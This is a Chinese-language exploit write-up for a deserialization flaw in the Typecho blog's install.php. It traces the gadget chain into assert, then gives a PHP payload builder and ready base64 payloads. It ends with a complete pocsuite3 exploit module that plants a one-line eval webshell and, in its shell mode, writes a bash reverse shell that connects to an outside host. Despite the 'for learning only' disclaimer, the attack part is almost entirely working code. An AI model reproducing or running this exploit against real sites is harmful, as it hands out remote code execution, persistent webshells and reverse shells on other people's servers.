

# !!​ 以下内容仅供学习与参考，不可进行非法使用。!!


服务器接受COOKIE或者POST传递的__typecho_config参数

 |

 \\/

进行base64解码 及反序列化 -》$config

 |

 \\/

对参数$config['adapter'],$config['prefix'] 创建Typecho_Db对象

 |

 \\/

创建对象的时候，使用了字符串拼接$config['adapter'],调用了__toString方法

 |

 \\/

调用to_String方法中时候调用了$item['author']->screenName的__get方法

 |

 \\/

__get方法返回的是对象的get($screenName（属性）)方法

 |

 \\/

get方法中又调用的_applyFilter($screenName);方法

 |

 \\/

此方法中对所有filter数组中的函数 对接收的value进行函数的执行

 |

 \\/

最后的结果为 `assert("file_put_contents('shell.php', '<?php @eval($_POST[l]);?>')")`

 ```php
#构建payload
<?php

class Typecho_Feed{
  private $_type = 'ATOM 1.0';
  private $_items = array();
  public function addItem(array $item){
​    $this->_items[] = $item;
  }
}
class Typecho_Request{
  private $_params = array('screenName'=> 'file_put_contents(\'shell.php\', \'<?php @eval($_POST[l]);?>\')');
  private $_filter = array('assert');
}

$payload1 = new Typecho_Feed();
$payload2 = new Typecho_Request();
$payload1->addItem(array('author' => $payload2));
$exp = array('adapter' => $payload1, 'prefix' => 'typecho');
echo base64_encode(serialize($exp));
?>


 ```




生成base64编码

```
YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6MTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NTk6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCAnPD9waHAgQGV2YWwoJF9QT1NUW2xdKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjY6InByZWZpeCI7czo3OiJ0eXBlY2hvIjt9
```


请求头中添加Referer字段

Referer: http://192.168.148.129/typecho/install.php?finish=1


访问写入的shell.php


 


 

蚁剑连接


```python
# encoding : utf-8 -*-                                                       
# @file    :   _2021_typecho_unserialize_getshell_new.py.py
# @Time    :   2021/8/13 8:33

from collections import OrderedDict

from pocsuite3.api import OptString

from urllib.parse import urljoin
import base64
from pocsuite3.api import Output, POCBase, register_poc, requests, logger
from pocsuite3.api import get_listener_ip, get_listener_port
from pocsuite3.api import REVERSE_PAYLOAD

import re
headers =  {"Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.8 Safari/537.36",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
            "Accept-Encoding": "gzip, deflate",
            "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close",
            "Referer": "http://192.168.21.14/typecho/install.php?finish=1",
            "Content-Type": "application/x-www-form-urlencoded"
            }
payload_helloword = {
    '__typecho_config': "YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6MTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NjI6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCc8P3BocCBlY2hvIFwnaGVsbG8gd29ybGRcJzs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjY6InByZWZpeCI7czo3OiJ0eXBlY2hvIjt9"}
#这个payload是写入一个文件中echo一个hello world
payload_webshell = {
    '__typecho_config': "YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6MTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NTk6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCAnPD9waHAgQGV2YWwoJF9QT1NUW2xdKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjY6InByZWZpeCI7czo3OiJ0eXBlY2hvIjt9"}
payload_reverse_shell = {
#这个payload是写入一个文件中内容为一句话木马
    "__typecho_config": "YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6MTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6OTU6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCc8P3BocCBzeXN0ZW0oXCdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjkuMTgwLzY2NjYgMD4mMVwnKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjY6InByZWZpeCI7czo3OiJ0eXBlY2hvIjt9"}
#这个payload是写入一个文件中内容为反弹shell
cookies = {"PHPSESSID": "p4rmjr1dtm1ooph2gan5pgsma3"}
class TypechoPoc(POCBase):
    vulID = '2021'              # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = '1'               # 默认为1
    author = 'marmot'        # PoC作者的大名
    vulDate = '2021-08-12'      # 漏洞公开的时间,不知道就写今天
    createDate = '2021-08-12'   # 编写 PoC 的日期
    updateDate = '2021-08-12'   # PoC 更新的时间,默认和编写时间一样
    references = []             # 漏洞地址来源,0day不用写
    name = 'typecho安装getshell'             # 漏洞厂商主页地址
    appName = 'typecho'       # 漏洞应用名称
    appVersion = 'All'          # 漏洞影响版本
    vulType = '反序列化'          # 漏洞类型,类型参考见 漏洞类型规范表
    desc = '''
        typecho安装页，安装完成未删除安装文件可以直接getshell！
    '''                         # 漏洞简要描述
    samples = ['https://example.org/']        # 测试样列,就是用 PoC 测试成功的网站
    install_requires = ['']     # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = '''pocsuite -r _2021_typecho_all_admin_getshell.py -u http://www.example.com --verify'''

    def _verify(self):
        result = {}
        # 验证代码
        url = self.write_shell(payload_helloword)
        if url:  # result是返回结果
            r = requests.get(url = url, headers = headers)
			#使用写入文件的函数写入的payload是输出hello world的payload，若hello world在返回的内容中，就表示存在漏洞
            if r.status_code == 200 and 'hello world' in r.text:
                result = {
                    'Result': {
                        'ShellInfo': {'URL': url, 'Content': 'Hacker By marmot !' },
                        'Stdout': '检测存在漏洞!'
                    }
                }
        return self.parse_output(result)
		#返回的是调用格式化输出的函数

    def _attack(self):

        result = {}
        # 攻击代码

        url = self.write_shell(payload_webshell)
		#使用写文件的函数payload为写一句话木马的payload写入一句话木马
        response = requests.get(url)
        #对生成的文件的url进行请求，返回码为200则写入成功，使用链接工具进行链接
        if response.status_code==200:
            result = {
                'Result': {
                    'ShellInfo': {'URL': url, 'Content': 'PHP一句话木马,密码:l'},
                    'Stdout': '上传webshell成功!'
                }
            }
        return self.parse_output(result)

    def _shell(self):
        result = {}
        """
        shell模式下，只能运行单个PoC脚本，控制台会进入shell交互模式执行命令及输出
        """

        url = self.write_shell(payload_reverse_shell)
		#使用写文件的函数payload为写反弹shell的payload写入反弹shell的文件

        if url:
            try:
                r = requests.get(url = url, headers = headers, timeout = 5)
                result = {}
                #请求反弹shell的文件 抛出超时的异常，
            except requests.exceptions.ReadTimeout as e:
                logger.warning('requests.exceptions.ReadTimeout')
                result = {
                    'Result': {
                        'Stdout': '反弹webshell成功!'
                        }
                    }
        # 攻击代码 execute cmd

        return self.parse_output(result)


    def write_shell(self,payload):
		#写文件的函数

        referer = f"{self.url}/install.php?finish=1"
		#referer字段
        header = headers
        #请求头
        header['Referer'] = referer
		#请求头中添加referer字段

        result = requests.post(url=self.url+"/install.php?finish=1",data=payload,headers=header,cookies=cookies)
		#对目标网站进行post请求，payload就是数据。写入的文件名都是shell.php
        url = self.url+"/shell.php"
        print(url)
        response = requests.get(url,headers=header)
        print(response.status_code)
        #对shell.php发起请求，若返回码200则代表已经写入了，返回结果为url
        if response.status_code == 200:
            return url
        else:
            return False
        #否则返回否
    def parse_output(self, result):

        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail()
        return output

# 注册 DemoPOC 类
register_poc(TypechoPoc)

```

